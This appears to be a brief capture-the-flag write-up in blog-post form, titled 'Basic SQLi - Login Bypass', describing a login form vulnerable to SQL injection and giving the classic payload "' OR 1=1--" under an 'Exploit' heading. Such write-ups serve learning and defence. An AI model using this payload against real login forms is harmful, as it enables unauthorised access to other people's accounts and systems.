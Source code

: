 ```yaml
---
layout: post
title: "Basic SQLi - Login Bypass"
date: 2025-04-07
categories: [web]
---
```


## 🔍 Challenge Overview

A login form vulnerable to SQL Injection.

## 💣 Exploit

Used payload:

```sql
' OR 1=1--

